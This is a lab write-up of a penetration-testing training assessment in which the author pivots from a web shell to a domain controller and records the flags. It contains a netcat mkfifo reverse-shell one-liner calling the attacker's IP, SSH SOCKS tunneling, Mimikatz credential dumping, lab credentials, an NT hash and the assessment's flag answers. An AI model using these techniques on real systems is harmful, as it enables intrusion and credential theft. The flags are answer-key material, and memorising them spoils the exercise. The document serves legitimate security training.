


# Skills Assessment

We are provided with a web shell, where we need to continue enumerating hosts, identify common services, and use those services/protocols to pivot into the internal networks of Inlanefreight.

### Objectives

- Start from external Pwnbox or VM and access the first system via web shell
- Use the web shell access to enumerate and pivot to an internal host
- Continue enumeration and pivoting until you reach the Inlanefreight Domain Controller and capture the associated flag
- Use any data, credentials, scripts, or other information within the environment to enable your pivoting attempts
- Grab any/all flags that can be found

### Connection Info

Foothold IP: `10.129.127.42`

## Approach

From the webshell at http://10.129.127.42, I was initially placed in `/var/www/html`, which only contained `index.php`. <br>
I proceeded to enumerate the system and found out that there are 2 files under user `webadmin`, in particular `for-admin-eyes-only` and `id_rsa`. <br>


The contents of `for-admin-eyes-only` contains a set of credential, `mlefay:Plain Human work!`


Running `ifconfig`, the web shell has an interface with IP `172.16.5.15`. Before performing a ping sweep across `172.16.5.0/24`, I will set up a reverse shell to my machine.

On my machine, I set up a listener on port 8888 with:
```bash
sudo nc -nlvp 8888
```
Then, we can set up a reverse shell by running a reverse shell one-liner on the web shell. ([Reference](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/))<br>
On the webshell, `nc -h` tells us that the web shell is using OpenBSD Netcat. So, we run:
```bash
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.9 8888 >/tmp/f
```
<br>
We should then see the connection on our attacker machine. Let's also set up TTY with Python with:
```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```
<br>
Now, I performed a ping sweep across `172.16.0.24`.
```bash
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
```
<br>
We can see that the other active host is `172.16.5.35`.

In the `webadmin` directory, there is also a `id_rsa` file, which contains a SSH private key. First, I copied `id_rsa` to my local machine. Then, I set up dynamic port forwarding with SSH and SOCKS tunneling using SSH's `-D` flag and connected to the webadmin's account on `10.129.127.42`.
```bash
ssh -D 1080 -i id_rsa webadmin@10.129.127.42
```

Now, I can use that machine as pivot and target `172.16.5.35` by adding `proxychians` before my commands.

We are able to connect to `172.16.5.35` with RDP.
```bash
proxychains xfreerdp3 /u:mlefay /p:'Plain Human work!' /v:172.16.5.35 /drive:linux,/home/<user>/Downloads
```
With this, we found a flag at `C:\Flag.txt`.
<br>
The flag is `S1ngl3-Piv07-3@sy-Day`.

Let us use Mimikatz to dump credentials from memory. In an administrator PowerShell:
```text
\\tsclient\linux\mimikatz\x64\mimikatz.exe

mimikatz # privilege::debug

mimikatz # sekurlsa::logonpasswords
```
<br>
Looking through the credentials dumped, I noticed a set of credentials for the user `vfrank`, who logged onto ACADEMY-PIVOT-D.<br>
His NT hash is `2e16a00be74fa0bf862b4256d0347e83`. <br>
His password is `Imply wet Unmasked!`.<br>
<br>
The vulnerable user in the network would be `vfrank`.

Next, I used `ipconfig` to find out the interfaces on this machine. I realised that it has another interface, `172.16.6.35`, which prompts me to ping sweep the `172.16.6.0/24` network. <br>
<br>
To perform a ping sweep in PowerShell, we can do:
```pwoershell
1..254 | % {"172.16.6.$($_): $(Test-Connection -count 1 -comp 172.16.6.$($_) -quiet)"}
```
Try to perform ping sweep twice to ensure that the ARP cache is built.

With this, I found out that we can reach `172.16.6.25` and `172.16.6.45`.

Now, we can run `mstsc.exe` to RDP from `172.16.5.35` to `172.16.6.25`.<br>
After providing the credentials, `vfrank:Imply wet Unmasked!`, we successfully gained access to `172.16.6.25`.

This allowed me to obtain the flag at `C:\Flag.txt` on that computer.
<br>
The flag is `N3tw0rk-H0pp1ng-f0R-FuN`.

Opening up File Explorer, I noticed that I can access the Domain Controller.<br>
<br>

Looking into "AutomateDCAdmin (Z:)", I found `C:\Flag.txt` and obtained the last flag.<br>
<br>
The flag is `3nd-0xf-Th3-R@inbow!`.